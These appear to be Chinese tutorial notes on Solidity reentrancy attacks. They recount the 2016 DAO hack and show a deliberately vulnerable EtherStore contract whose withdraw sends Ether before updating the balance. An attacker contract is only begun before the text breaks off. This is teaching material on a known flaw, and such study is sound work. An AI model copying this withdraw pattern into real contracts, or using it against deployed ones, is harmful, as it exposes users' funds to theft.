         - **重入攻击（Re-Entrancy）代码2：`call`**
            
            [**Solidity - 安全 - 重入攻击（Reentrancy）**](https://blog.csdn.net/ling1998/article/details/125473315)
            
            The DAO是分布式自治组织，2016年5月正式发布，该项目使用了由德国以太坊创业公司Slock.it编写的开源代码。2016年6月17上午，被攻击的消息开始在社交网站上出现，到6月18日黑客将超过360万个以太币转移到一个child DAO项目中，child DAO项目和The DAO有着一样的结构，当时以太币的价格从20美元降到了13美元。
            
            当时，一个所谓的”递归调用“攻击（现在称为重入攻击）名词随之出现，这种攻击可以被用来消耗一些智能合约账户。
            整个事件可以参考： [The DAO攻击历史_x-2010的博客-CSDN博客_dao 攻击](https://blog.csdn.net/huhaoxuan2010/article/details/80088864)
            
            ### 模拟重入攻击
            
            攻击与被攻击合约代码
            
            > 说明：以下重入攻击代码，在0.8.0以下版本可以成功测试，0.8.0及以上版本未能成功测试，调用攻击函数时被拦截报错。
            > 
            - 源码可参见： [smartcontract/Security/Reentrancy at main · tracyzhang1998/smartcontract · GitHub](https://github.com/tracyzhang1998/smartcontract/tree/main/Security/Reentrancy)
                
                ```solidity
                // SPDX-License-Identifier: MIT
                pragma solidity ^0.7.6;
                 
                //被攻击合约
                contract EtherStore {
                    //记录余额
                    mapping(address => uint256) public balance;
                 
                    // 存款，ether转入合约地址，同时更新调用者的balance;
                    function deposit() external payable {
                        balance[msg.sender] += msg.value;
                    }
                 
                    // 取款，从合约地址余额向调用者地址取款
                    function withdraw(uint256 _amount) external {
                        // 验证账户余额是否充足
                        require(balance[msg.sender] >= _amount, "The balance is not sufficient.");
                        // 取款（从合约地址转入调用者账户）
                        (bool result,) = msg.sender.call{value: _amount}("");
                        // 验证取款结果 
                        require(result, "Failed to withdraw Ether");
                 
                        // 更新余额
                        balance[msg.sender] -= _amount;
                    }
                 
                    // 查看合约余额
                    function getContractBalance() external view returns(uint256) {
                        return address(this).balance;
                    }
                }
                 
                //攻击合约（黑客编写）
                contract Attack {
                    EtherStore public etherstore;
                 
